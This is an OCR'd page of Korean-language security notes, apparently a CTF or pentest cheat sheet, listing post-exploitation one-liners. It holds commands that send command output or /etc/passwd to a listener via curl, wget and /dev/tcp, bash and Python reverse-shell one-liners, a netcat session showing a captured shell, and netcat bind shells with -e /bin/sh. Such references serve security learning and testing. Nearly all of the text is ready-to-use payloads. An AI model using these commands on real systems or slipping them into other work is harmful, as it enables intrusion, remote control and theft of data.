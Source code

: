     # POST Body에 실행 결과 포함
    curl http://127.0.0.1:8080/ -d "$(ls -al)"
    wget http://127.0.0.1:8080 --method=POST --body-data="`ls -al`"
    ```
    

- /dev/tcp, /dev/udp (bash 한정)
    
    ```bash
    cat /etc/passwd > /dev/tcp/127.0.0.1/8080
    ```
    

#### Reverse Shell

- sh (bash)
    
    ```bash
    /bin/sh -i >& /dev/tcp/127.0.0.1/8080 0>&1
    /bin/sh -i >& /dev/udp/127.0.0.1/8080 0>&1
    ```
    
    연결을 받는 서버에서 아래와 같이 nc 등의 네트워크 도구를 통해 연결을 맺게 되면 쉘을 획득할 수 있다.
    
    ```bash
    b3ll@LAPTOP-9RLP0NRO:~$ nc -l -p 8080 -k -v
    Listening on [0.0.0.0] (family 0, port 8080)
    Connection from localhost 49436 received!
    $ id
    uid=1000(b3ll) gid=1000(b3ll) groups=1000(b3ll),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),114(netdev),115(docker)
    ```
    

- Python
    
    ```bash
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    ```
    
    ```bash
    (venv) \[\e]0;\u@\h: \w\a\]\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]$ ls
    BOB
    codegate
    codegate_old
    dreamhack
    ```
    

#### Bind Shell

- nc (netcat)

```bash
# nc 버전에 따라 -e 옵션을 지원하지 않을 수도 있습니다.
nc -nlvp 8080 -e /bin/sh
ncat -nlvp 8080 -e /bin/sh
```
